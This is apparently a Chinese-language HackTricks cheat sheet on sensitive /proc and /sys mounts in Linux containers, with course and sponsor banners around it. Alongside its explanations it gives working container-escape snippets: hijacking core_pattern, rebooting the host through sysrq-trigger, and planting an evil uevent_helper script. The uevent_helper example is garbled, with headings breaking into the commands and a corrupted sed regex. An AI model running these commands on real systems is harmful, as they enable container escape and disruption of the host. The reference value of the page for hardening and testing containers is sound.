 # 敏感挂载点

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

未经适当命名空间隔离的`/proc`和`/sys`的暴露会带来重大安全风险，包括扩大攻击面和信息泄露。这些目录包含敏感文件，如果配置错误或被未经授权的用户访问，可能导致容器逃逸、主机修改或提供有助于进一步攻击的信息。例如，不正确地挂载`-v /proc:/host/proc`可能绕过AppArmor保护，因为其基于路径的特性，使`/host/proc`无保护。

**您可以在** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)** **中找到每个潜在漏洞的更多详细信息。

## procfs漏洞

### `/proc/sys`

此目录允许通过`sysctl(2)`修改内核变量，并包含几个相关子目录：

#### **`/proc/sys/kernel/core_pattern`**

* 在[core(5)](https://man7.org/linux/man-pages/man5/core.5.html)中描述。
* 允许定义一个程序，在核心文件生成时使用前128个字节作为参数。如果文件以管道`|`开头，这可能导致代码执行。
*   **测试和利用示例**：

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # 测试写入权限
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # 设置自定义处理程序
sleep 5 && ./crash & # 触发处理程序
```

#### **`/proc/sys/kernel/modprobe`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中详细描述。
* 包含内核模块加载器的路径，用于加载内核模块。
*   **检查访问权限示例**：

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # 检查对modprobe的访问权限
```

#### **`/proc/sys/vm/panic_on_oom`**

* 在[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)中引用。
* 一个全局标志，控制当发生OOM条件时内核是崩溃还是调用OOM killer。

#### **`/proc/sys/fs`**

* 根据[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)，包含有关文件系统的选项和信息。
* 写入权限可能导致对主机的各种拒绝服务攻击。

#### **`/proc/sys/fs/binfmt_misc`**

* 允许根据其魔术数字为非本机二进制格式注册解释器。
* 如果`/proc/sys/fs/binfmt_misc/register`可写，可能导致特权升级或root shell访问。
* 相关利用和解释：
* [通过binfmt\_misc实现的简易rootkit](https://github.com/toffan/binfmt\_misc)
* 深入教程：[视频链接](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### `/proc`中的其他内容

#### **`/proc/config.gz`**

* 如果启用了`CONFIG_IKCONFIG_PROC`，可能会显示内核配置。
* 对攻击者有用，以识别运行中内核中的漏洞。

#### **`/proc/sysrq-trigger`**

* 允许调用Sysrq命令，可能导致立即系统重启或其他关键操作。
*   **重启主机示例**：

```bash
echo b > /proc/sysrq-trigger # 重启主机
```

#### **`/proc/kmsg`**

* 显示内核环形缓冲区消息。
* 可帮助内核利用、地址泄漏和提供敏感系统信息。

#### **`/proc/kallsyms`**

* 列出内核导出的符号及其地址。
* 对于内核利用开发至关重要，尤其是为了克服KASLR。
* 地址信息受`kptr_restrict`设置为`1`或`2`的限制。
* 详细信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/[pid]/mem`**

* 与内核内存设备`/dev/mem`交互。
* 在历史上容易受到特权升级攻击。
* 更多信息请参阅[proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html)。

#### **`/proc/kcore`**

* 以ELF核心格式表示系统的物理内存。
* 读取可能泄露主机系统和其他容器的内存内容。
* 大文件大小可能导致读取问题或软件崩溃。
* 详细用法请参阅[2019年转储/proc/kcore](https://schlafwandler.github.io/posts/dumping-/proc/kcore/)。

#### **`/proc/kmem`**

* `/dev/kmem`的替代接口，表示内核虚拟内存。
* 允许读取和写入，因此可以直接修改内核内存。

#### **`/proc/mem`**

* `/dev/mem`的替代接口，表示物理内存。
* 允许读取和写入，修改所有内存需要解析虚拟到物理地址。

#### **`/proc/sched_debug`**

* 返回进程调度信息，绕过PID命名空间保护。
* 显示进程名称、ID和cgroup标识符。

#### **`/proc/[pid]/mountinfo`**

* 提供有关进程挂载命名空间中挂载点的信息。
* 显示容器`rootfs`或镜像的位置。

### `/sys`漏洞

#### **`/sys/kernel/uevent_helper`**

* 用于处理内核设备`uevents`。
* 写入`/sys/kernel/uevent_helper`可以在`uevent`触发时执行任意脚本。
*   **利用示例**： %%%bash

### 创建有效载荷

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### 从OverlayFS挂载的容器中查找主机路径

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### 将uevent\_helper设置为恶意助手

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### 触发uevent

echo change > /sys/class/mem/null/uevent

### 读取输出

cat /output %%%
#### **`/sys/class/thermal`**

* 控制温度设置，可能导致 DoS 攻击或物理损坏。

#### **`/sys/kernel/vmcoreinfo`**

* 泄露内核地址，可能危及 KASLR。

#### **`/sys/kernel/security`**

* 包含 `securityfs` 接口，允许配置类似 AppArmor 的 Linux 安全模块。
* 访问可能使容器能够禁用其 MAC 系统。

#### **`/sys/firmware/efi/vars` 和 `/sys/firmware/efi/efivars`**

* 提供与 NVRAM 中的 EFI 变量交互的接口。
* 配置错误或利用可能导致笔记本变砖或主机无法启动。

#### **`/sys/kernel/debug`**

* `debugfs` 为内核提供了一个“无规则”调试接口。
* 由于其不受限制的特性，存在安全问题的历史。

### 参考资料

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的 **公司在 HackTricks 中做广告** 或 **下载 PDF 版本的 HackTricks**，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家 [**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

